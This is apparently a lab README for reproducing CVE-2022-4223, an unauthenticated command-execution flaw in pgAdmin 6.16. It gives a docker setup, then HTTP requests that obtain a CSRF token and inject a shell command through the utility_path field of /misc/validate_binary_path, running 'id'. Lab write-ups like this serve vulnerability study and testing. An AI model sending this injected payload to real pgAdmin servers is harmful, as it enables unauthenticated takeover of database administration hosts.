

# pgAdmin <= 6.16 Unauthenticated Remote Command Execution (CVE-2022-4223)

[中文版本(Chinese version)](README.zh-cn.md)

pgAdmin is a popular and feature rich Open Source administration and development platform for PostgreSQL, the most advanced Open Source database in the world.

The pgAdmin server includes an HTTP API that is intended to be used to validate the path a user selects to external PostgreSQL utilities such as pg_dump and pg_restore. The utility is executed by the server to determine what PostgreSQL version it is from. Versions of pgAdmin prior to 6.17 failed to properly secure this API, which could allow an unauthenticated user to execute arbitrary commands on the server.

References:

- <https://github.com/pgadmin-org/pgadmin4/commit/799b6d8f7c10e920c9e67c2c18d381d6320ca604>
- <https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595>
- <https://github.com/advisories/GHSA-3v6v-2x6p-32mc>

## Vulnerable Environment

Execute following command to start a pgAdmin 6.16 server:

```
docker compose up -d
```

After the server is started, browse the `http://your-ip:5050` to see the default login page of pgAdmin.

## Exploit

Before exploiting the vulnerability, send the following request to obtain the CSRF token:

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close


```

Get the session id and csrf token from response:



Then, fill the following request with the session id and csrf token and send it:

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

As you can see, `id` command has been executed successful:


